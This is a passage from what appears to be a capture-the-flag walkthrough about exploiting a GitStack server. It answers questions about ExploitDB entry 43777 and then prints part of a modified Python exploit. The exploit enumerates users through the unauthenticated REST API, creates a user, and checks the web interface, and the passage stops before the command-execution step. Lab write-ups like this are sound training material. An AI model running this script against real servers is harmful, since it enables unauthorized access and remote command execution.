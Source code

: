If you're not using Kali, go to ExploitDB and search for gitstack

> 43777

---

### ***Git Server** Code Review*

- Look at the information at the top of the script. On what date was this exploit written?

> 18.01.2018

- Is the script written in Python2 or Python3?

> Python2

- Just to confirm that you have been paying attention to the script: What is the name of the cookie set in the POST request made on line 74 (line 73 if you didn't add the shebang) of the exploit? 

> csrftoken

---

### ***Git Server** Exploitation*

We'll use a slightly modified exploit. Save it to "exploit.py" file.

```python
import requests
from requests.auth import HTTPBasicAuth
import os
import sys

ip = 'localhost:10001'

# What command you want to execute
command = "whoami"

repository = 'rce'
username = 'rce'
password = 'rce'
csrf_token = 'token'

user_list = []

print("[+] Get user list")
try:
	r = requests.get("http://{}/rest/user/".format(ip))
	user_list = r.json()
	user_list.remove('everyone')
except:
	pass

if len(user_list) > 0:
	username = user_list[0]
	print( "[+] Found user {}".format(username))
else:
	r = requests.post("http://{}/rest/user/".format(ip), data={'username' : username, 'password' : password})
	print("[+] Create user")
	
	if not "User created" in r.text and not "User already exist" in r.text:
		print("[-] Cannot create user")
		os._exit(0)

r = requests.get("http://{}/rest/settings/general/webinterface/".format(ip))
if "true" in r.text:
	print("[+] Web repository already enabled")
```